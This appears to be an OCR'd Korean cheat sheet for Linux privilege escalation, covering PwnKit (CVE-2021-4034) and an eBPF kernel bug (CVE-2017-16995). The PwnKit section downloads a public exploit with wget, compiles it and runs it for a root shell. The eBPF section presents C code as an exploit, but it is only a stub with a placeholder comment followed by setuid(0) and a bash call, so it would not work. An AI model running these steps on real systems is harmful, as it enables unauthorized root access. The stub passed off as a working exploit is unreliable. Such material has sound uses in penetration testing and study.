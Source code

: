 ### ⚡ CVE-2021-4034 (PwnKit)

```bash
# 취약한 버전: polkit < 0.120
# 확인 방법
pkexec --version

# 익스플로잇 다운로드
wget https://github.com/berdav/CVE-2021-4034/archive/main.zip
unzip main.zip && cd CVE-2021-4034-main

# 컴파일 및 실행
make
./cve-2021-4034

# 즉시 root 쉘 획득
```

### 🎯 CVE-2017-16995 (eBPF)

```bash
# 취약한 버전: Linux Kernel 4.4.0 - 4.14.11
# 확인 방법
uname -r | grep -E "^4\.(4|5|6|7|8|9|10|11|12|13|14)\."

# 익스플로잇 코드
cat > cve-2017-16995.c << 'EOF'
#include <stdio.h>
#include <unistd.h>
#include <linux/bpf.h>
#include <errno.h>
#include <string.h>
#include <sys/syscall.h>

int main() {
    union bpf_attr attr = {
        .map_type = BPF_MAP_TYPE_ARRAY,
        .key_size = 4,
        .value_size = 8,
        .max_entries = 1
    };

    int mapfd = syscall(__NR_bpf, BPF_MAP_CREATE, &attr, sizeof(attr));
    if (mapfd == -1) {
        perror("bpf map create");
        return -1;
    }

    // eBPF exploit code here
    setuid(0);
    system("/bin/bash");
    return 0;
}
EOF

# 컴파일 및 실행
gcc cve-2017-16995.c -o pwn
./pwn
```
